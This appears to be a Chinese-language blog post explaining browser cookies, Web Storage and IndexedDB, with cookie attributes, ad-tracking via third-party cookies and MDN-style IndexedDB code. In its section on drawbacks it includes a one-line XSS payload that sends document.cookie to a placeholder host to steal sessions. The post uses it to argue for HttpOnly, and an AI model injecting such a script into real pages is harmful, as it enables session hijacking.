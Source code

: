 ```yaml
---
layout: post
title: Cookie, Storage 与 indexDB
date: 2021-02-05
---
```

# cookie
## 目的
用于识别用户身份。

## 特点 
  * 4kb
  * 发请求自动带上

## 原理
服务器返回setsCookie时，浏览器会记住cookie, 浏览器发送请求，cookie会被携带给服务器。  
Cookie 执行同源策略，同一个 host 下的不同端口可以互相访问 Cookie。a与b只能访问自己的cookie，在a中内嵌c网页，并获取c的cookie，此时c cookie是a的第三方cookie。
**Chrome 更新 80后， SameSite 为`Lax`， 仅允许同站或者子站访问Cookie, 跨站（内嵌c无法访问cookie）需要SameSite `None`**
Secure：只允许Https setCookie
HttpOnly： 不允许JS访问ducoment.cookie， 只能由服务器setsCookie

```
Set-Cookie: userId=123; SameSite=None; Secure; HttpOnly
```

## 应用
多用于广告服务。a通过内嵌网页向c发送请求，c返回cookie；b通过内嵌网页向c发送请求，并携带cookie，c获知用户身份，按喜好投放广告。 

## 缺点

XSS攻击： 跨站脚本攻击， 利用用户对网页的信任。不设置HttpOnly，则用户能上传恶意代码，如： `<script>window.open("举个栗子.com?cookie=" + document.cookie</script>`，获取他人的cookie与身份。
CSRF(Cross-site request forgery): 跨站请求伪造，需要诱导点击，利用<form>跨域发请求，携带cookie，完成非意愿的操作。

# storage
## 目的
弥补cookie太小
## 特点

* 10MB
* 使用 Key-Value 形式储存， 只能存字符串。
* 需要调用setItem, getItem, removeItem, clear。
* 增删改查为同步。

# IndexedDB
## 目的
弥补storage只能存字符串

## 特点

* 空间无限制。
* 能存对象，数字等。
* 增删改查都是异步。
[文档] (https://developer.mozilla.org/zh-CN/docs/Web/API/IndexedDB_API/Using_IndexedDB)

IndexedDB 鼓励使用的基本模式如下所示：

```

1. 打开数据库。
2. 在数据库中创建一个对象仓库（object store）。
3. 启动一个事务，并发送一个请求来执行一些数据库操作，像增加或提取数据等。
4. 通过监听正确类型的 DOM 事件以等待操作完成。
5. 在操作结果上进行一些操作


const dbName = "the_name";

var request = indexedDB.open(dbName, 2);

request.onerror = function(event) {
  // 错误处理
};
request.onsuccess = function(event) {
// 成功
  console.log(event.target.result)
};

// 当你创建一个新的数据库或者增加已存在的数据库的版本号（当打开数据库时，指定一个比之前更大的版本号）， onupgradeneeded 事件会被触发, onupgradeneeded 是我们唯一可以修改数据库结构的地方。
request.onupgradeneeded = function(event) {
  var db = event.target.result;

  // 建立一个对象仓库来存储我们客户的相关信息，我们选择 ssn 作为键路径（key path）
  // 因为 ssn 可以保证是不重复的
  // autoIncrement 自增
  var objectStore = db.createObjectStore("customers", { keyPath: "ssn", autoIncrement : true });

  // 建立一个索引来通过姓名来搜索客户。名字可能会重复，所以我们不能使用 unique 索引
  objectStore.createIndex("name", "name", { unique: false });

  // 使用邮箱建立索引，我们向确保客户的邮箱不会重复，所以我们使用 unique 索引
  objectStore.createIndex("email", "email", { unique: true });

  // 使用事务的 oncomplete 事件确保在插入数据前对象仓库已经创建完毕
  objectStore.transaction.oncomplete = function(event) {
    // 将数据保存到新创建的对象仓库
    var customerObjectStore = db.transaction("customers", "readwrite").objectStore("customers");
    // 增
    customerData.forEach(function(customer) {
      let add = customerObjectStore.add(customer);
      add.onsuccess = () => {}
      add.onerror = () => {} 
    });
    // 改
    let put = customerObjectStore.put(data)
    put.onsuccess = () => {}
    put.onerror = () => {} 
    // 删
    let remove = customerObjectStore.delete("444-44-4444")
    remove.onsuccess = () => {}
    remove.onerror = () => {} 
    // 查
    let get = customerObjectStore.get("444-44-4444")
    get.onsuccess = () => {}
    get.onerror = () => {} 
  };
};

```
